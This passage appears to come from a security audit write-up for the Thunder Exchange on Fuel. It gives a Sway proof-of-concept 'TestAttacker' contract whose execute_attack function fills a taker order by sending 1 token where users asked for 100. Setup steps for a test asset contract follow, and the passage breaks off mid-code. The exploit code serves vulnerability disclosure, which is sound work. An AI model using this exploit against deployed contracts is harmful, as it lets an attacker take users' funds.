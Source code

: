 ```rs
    /// Thunder Exchange contractId
    exchange: Option<ContractId> = Option::None,

    /// Pool contractId
    pool: Option<ContractId> = Option::None,

    /// Strategy contractId
    strategy: Option<ContractId> = Option::None,
}

impl TestAttacker for Contract {
    #[storage(read, write)]
    fn initialize(exchange: ContractId, pool: ContractId, strategy: ContractId) {
        storage.exchange.write(Option::Some(exchange));
        storage.pool.write(Option::Some(pool));
        storage.strategy.write(Option::Some(strategy));
    }

    #[storage(read)]
    fn execute_attack(order: TakerOrder) {
        let exchange_addr = storage.exchange.read().unwrap().bits();
        let exchange = abi(ThunderExchange, exchange_addr);
        
        exchange.execute_order{ asset_id: AssetId::new(order.collection, order.token_id).bits(), coins: 1 }(order); // attackers sells only 1 token although the users asked for 100
    }
}
```

### test_asset folder
In the `test_asset` folder. The test asset is simply the Fuel Team SRC3 [example](https://github.com/FuelLabs/sway-standards/blob/master/examples/src3-mint-burn/multi_asset/src/multi_asset.sw)
- Add the below in the `forc.toml`:
```rs
[project]
authors = ["Blockian"]
entry = "main.sw"
license = "Apache-2.0"
name = "test_asset"

[dependencies]
standards = { git = "https://github.com/FuelLabs/sway-standards", tag = "v0.4.4" }
```

- Add the below in the `main.sw`:
```rs
contract;

use standards::{src20::SRC20, src3::SRC3};
use std::{
    asset::{
        burn,
        mint_to,
    },
    call_frames::msg_asset_id,
    context::msg_amount,
    hash::Hash,
    storage::storage_string::*,
    string::String,
};

// In this example, all assets minted from this contract have the same decimals, name, and symbol
configurable {
    /// The decimals of every asset minted by this contract.
```